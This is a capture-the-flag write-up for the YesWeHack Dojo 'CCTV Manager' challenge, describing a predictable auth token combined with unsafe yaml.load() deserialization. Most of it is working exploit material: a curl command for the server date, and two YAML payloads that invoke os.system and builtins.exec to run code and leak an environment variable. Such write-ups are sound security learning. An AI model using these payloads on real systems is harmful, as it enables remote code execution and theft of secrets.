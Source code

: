 # YesWeHack Dojo43 CCTV Manager Write-Up

<p align="justify">The application implements a weak token-based authentication mechanism, where the server-generated token could be predicted or matched by an attacker. Combined with the insecure use of yaml.load() on untrusted input, this enabled malicious YAML payloads to trigger Python built-in functions and achieve Remote Code Execution (RCE). This flaw allowed attackers to bypass authentication, execute arbitrary code, and disclose sensitive information such as environment variables (including the flag). </p>

## Code analysis

<p align="justify">
  
````bash
curl -sI https://dojo-yeswehack.com | grep -i '^date:' | cut -d' ' -f2-
````
  
## solve 1 

````bash
firmware:
  version: !!python/object/apply:os.system
  - |
    echo $FLAG
````

## solve 2  

````bash
firmware:
  version: !!python/object/apply:builtins.exec 
  - |
    import threading
    def leak_flag():
        import os
        flag = os.environ.get("FLAG", "no_flag")
        raise Exception(f"FLAG_LEAK: {flag}")
    threading.Thread(target=leak_flag).start() # starting thread in server context triggers error relfected in output server (see snippet below)
````
